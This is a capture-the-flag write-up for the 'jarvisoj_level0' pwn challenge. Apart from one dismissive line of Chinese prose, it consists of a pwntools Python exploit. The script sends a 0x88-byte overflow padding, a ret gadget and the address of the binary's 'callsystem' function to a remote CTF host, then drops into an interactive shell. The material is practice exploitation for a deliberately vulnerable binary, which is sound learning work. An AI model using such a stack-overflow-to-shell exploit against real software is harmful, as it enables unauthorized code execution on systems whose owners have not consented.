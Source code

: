 # jarvisoj_level0

## Information

- Category: Pwn
- Points: 1

## Write-up

闹着玩呢？不写了，和第一题差不多。

## Exploit

```python
#!/usr/bin/python

from pwn import ROP, args, context, flat, gdb, process, remote

gdbscript = """
c
"""

FILE = "./level0"
HOST, PORT = "node5.buuoj.cn", 27572

context(log_level="debug", binary=FILE, terminal="kitty")


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def construct_payload():
    elf = context.binary
    rop = ROP(elf)

    payload = flat(b"A" * 0x88, rop.ret.address, elf.symbols["callsystem"])

    return payload


def main():
    target = launch()

    payload = construct_payload()

    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```
